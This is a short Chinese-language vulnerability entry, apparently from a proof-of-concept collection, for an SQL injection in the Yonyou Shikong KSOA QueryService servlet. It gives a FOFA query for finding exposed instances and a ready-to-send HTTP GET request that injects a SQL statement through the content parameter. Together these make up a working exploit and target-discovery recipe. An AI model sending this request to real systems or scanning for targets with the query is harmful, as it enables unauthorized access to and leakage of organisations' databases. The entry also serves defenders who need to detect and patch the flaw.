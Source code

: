 ## 用友时空KSOA接口com.sksoft.bill.QueryService存在SQL注入漏洞

用友时空KSOA /servlet/com.sksoft.bill.QueryService  存在sql注入漏洞，导致数据泄露。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /servlet/com.sksoft.bill.QueryService?service=query&content=SELECT%20HashBytes('md5','NjTFtj4Q'); HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Maxthon/4.4.3.4000 Chrome/30.0.1599.101 Safari/537.36
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image-20240709134924259](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407091349312.png)